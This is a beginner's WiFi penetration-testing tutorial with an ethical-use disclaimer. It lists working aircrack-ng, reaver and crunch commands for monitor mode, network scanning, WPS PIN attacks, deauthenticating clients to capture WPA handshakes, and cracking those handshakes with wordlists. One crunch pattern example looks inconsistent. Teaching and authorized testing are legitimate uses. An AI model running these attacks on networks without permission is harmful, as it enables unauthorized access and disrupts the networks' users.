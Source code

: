 
# WiFi Penetration Testing Guide

> **Disclaimer:** This guide is for educational purposes only. Use these tools exclusively on networks you own or have explicit permission to test. Unauthorized use may be illegal.

---

## Table of Contents
- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
- [Setting Up Monitor Mode](#setting-up-monitor-mode)
- [Network Scanning](#network-scanning)
- [Performing WPS Attacks](#performing-wps-attacks)
- [Capturing WPA/WPA2 Handshakes](#capturing-wpapawpa2-handshakes)
- [Cracking WPA/WPA2 Passwords](#cracking-wpapawpa2-passwords)

---

## Introduction

Welcome to the WiFi Penetration Testing Guide! This guide is designed with beginners in mind and walks you through the basics of wireless network analysis and penetration testing using common tools. Always remember: ethical testing only!

---

## Prerequisites

Before you begin, ensure you have:
- **Operating System:** A Linux distribution (Kali Linux is highly recommended for beginners).
- **Wireless Adapter:** An adapter that supports monitor mode and packet injection.
- **Required Tools:** Tools such as `aircrack-ng suite`, `wash`, `reaver`, and `crunch` should be installed.
- **Basic Command Line Skills:** Familiarity with using the Linux terminal will help you follow along.

---

## Setting Up Monitor Mode

Monitor mode allows your wireless adapter to capture all traffic within range.

### 1. List Available Interfaces
```bash
iwconfig
```
This command displays all available wireless devices.

### 2. Disable the Interface

Replace `wlan1` with your adapter's name.
```bash
ifconfig wlan1 down
```

### 3. Stop Interfering Processes
```bash
airmon-ng check kill
```
This stops processes that might interfere with monitor mode.

### 4. Enable Monitor Mode
```bash
iwconfig wlan1 mode monitor
```

### 5. Re-enable the Interface
```bash
ifconfig wlan1 up
```

### 6. Verify Monitor Mode
Run `iwconfig` again to confirm that your interface is now in monitor mode.

---

## Network Scanning

With your adapter in monitor mode, you can now scan for nearby networks.

### Scan 2.4 GHz Networks
```bash
airodump-ng wlan1
```

### Scan 5 GHz Networks
```bash
airodump-ng --band a wlan1
```

### Scan Both Bands (2.4 GHz & 5 GHz)
```bash
airodump-ng --band abg wlan1
```

### Capture Scan Data
Replace `<target_mac>` with the network's MAC address and `<channel>` with its channel.
```bash
airodump-ng --bssid <target_mac> --channel <channel> --write capture_file wlan1
```
This command saves the scan results to a file for further analysis.

---

## Performing WPS Attacks

WPS attacks target routers with Wi-Fi Protected Setup enabled. This section explains the process step-by-step.

### 1. Identify Networks with WPS Enabled
```bash
wash --interface wlan1
```
This lists nearby networks that support WPS.

### 2. Execute a WPS Attack
Replace `<target_mac>` and `<channel>` with the appropriate values.
```bash
reaver --bssid <target_mac> --channel <channel> --interface wlan1 -vvv --no-associate
```
- **`-vvv`:** Enables detailed output, helpful for understanding what’s happening.
- **`--no-associate`:** Uses manual association, which can sometimes yield better results.

---

## Capturing WPA/WPA2 Handshakes

Capturing the handshake between a router and a connected client is key to testing WPA/WPA2 security.

### 1. Start Handshake Capture
Replace `<target_mac>` and `<channel>` with your target’s details.
```bash
airodump-ng --bssid <target_mac> --channel <channel> --write wpa_handshake wlan1
```
Let this command run until a handshake is captured.

### 2. Accelerate Handshake Capture with Deauthentication
Force a connected client to reconnect by deauthenticating them:
```bash
aireplay-ng --deauth 4 -a <target_mac> -c <client_mac> wlan1
```
- **`-a`:** Specifies the target network's MAC address.
- **`-c`:** Specifies the client's MAC address.

---

## Cracking WPA/WPA2 Passwords

Once a handshake is captured, you can attempt to crack the network password using a wordlist.

### 1. Generate a Wordlist Using Crunch
For example, to create a wordlist for passwords of length 6 to 8:
```bash
crunch 6 8 abcdefghijklmnopqrstuvwxyz0123456789 -o wordlist.txt
```
You can also incorporate patterns:
```bash
crunch 6 8 abc123 -t @@@@ -o wordlist.txt
```

### 2. Crack the Password with Aircrack-ng
```bash
aircrack-ng wpa_handshake-01.cap -w wordlist.txt
```
- **`wpa_handshake-01.cap`:** The file containing the captured handshake.
- **`wordlist.txt`:** Your generated wordlist.

Aircrack-ng will try each password from the wordlist against the handshake until a match is found.

---

Remember, this guide is designed to help you learn and practice ethical WiFi testing. **Don't get yourselves arrested, folks—always test only on networks you have permission to access!**
